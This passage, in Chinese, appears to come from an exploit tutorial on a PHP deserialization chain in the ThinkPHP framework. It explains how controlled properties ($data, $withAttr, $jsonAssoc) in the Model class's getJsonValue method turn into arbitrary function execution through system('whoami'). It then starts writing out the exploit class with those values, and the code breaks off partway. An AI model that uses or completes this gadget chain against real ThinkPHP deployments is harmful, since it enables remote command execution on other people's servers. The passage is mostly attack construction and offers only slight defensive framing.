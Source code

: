 


#### 16）跟进getJsonValue方法

此时，传入的参数$name，$​value都可控，都为$this->data这个数组的键和值。

```php
$this->data[$name] = $value
```

第551行的判断，只要$value不为空即可绕过。

第555行foreach循环语句将 `$this->withAttr `数组中`$name`（从` $this->data` 来的 key，所以也再次明确withAttr 和 value 数组要保持一致）的键作为 key，值为` $closure`。同时需要满足 `$this->jsonAssoc= true `，不要忘记加入到exploit里。

进入第557行漏洞触发点，让`$closure`成为我们想执行的函数名，`$value（$this->data[$name]）`为参数既可实现任意函数执行。

为什么说第557行时漏洞触发点呢？我们倒推一下，将$closure看做是一个执行系统命令的函数，比如：`system($value[$key], $value)`。

`$this->withAttr[$name] as $key => $closure` 即将 ['xxx'=>['system']] 中的值在作为键值，那么键 key =0 ，值 `$closure = system`,那么得出 `$this->withAttr=['xxx' => ['system']]` 。

现在我们得到了`system($value[$key], $value)`这样形式的结果，我们先看一个`system()`函数的语法结构：

```php
system(string $command, int &$result_code = null): string|false
```

它的第一个参数传入的是command命令，那么就要求 `$value[$key] =`可执行的系统命令 ，由上面可知，key=0，`$value`是$this->data[$name]的值，所以得出 `$this->data=['xxx' => ['whoami']]` 。

我们继续完善exploit：

```php
<?php

namespace think{

    abstract class Model{

        private $lazySave = false;

        private $data = [];

        protected $withEvent = true;

        private $exists = false;

        private $force = false;

        protected $table;

        private $withAttr = [];

        protected $json = [];

        protected $jsonAssoc = false;

        function __construct($obj='')

        {

            $this->lazySave = true;

            $this->data = ['xxx' => ['whoami']];

            $this->withEvent = false;

            $this->exists = true;

```